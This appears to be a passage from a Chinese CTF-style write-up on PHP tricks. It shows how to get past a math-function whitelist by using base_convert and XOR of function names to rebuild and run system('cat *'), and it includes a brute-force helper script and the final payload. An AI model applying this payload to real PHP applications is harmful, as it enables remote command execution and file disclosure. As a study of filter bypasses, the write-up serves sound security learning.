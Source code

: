     base_convert("cat",36,10);
    //15941
    
- system
    
    //base_convert(1751504350,10,36) ->system
    
- 空格*的构造
    
    ```php
    <?php
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    $whitelist2 = [ 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh','abs'];
    
    foreach ($whitelist as $i):
        foreach ($whitelist2 as $k):
        echo $k^$i^" *";
        echo "   " . $i . " " . $k;
        echo "<br/>";
        endforeach;
    endforeach;
    ```
    

**payload:**

base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
//base_convert(1751504350,10,36) ->system
//base_convert(15941,10,36) -> cat
//system('cat *')

结果

![Untitled](PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%203.png)
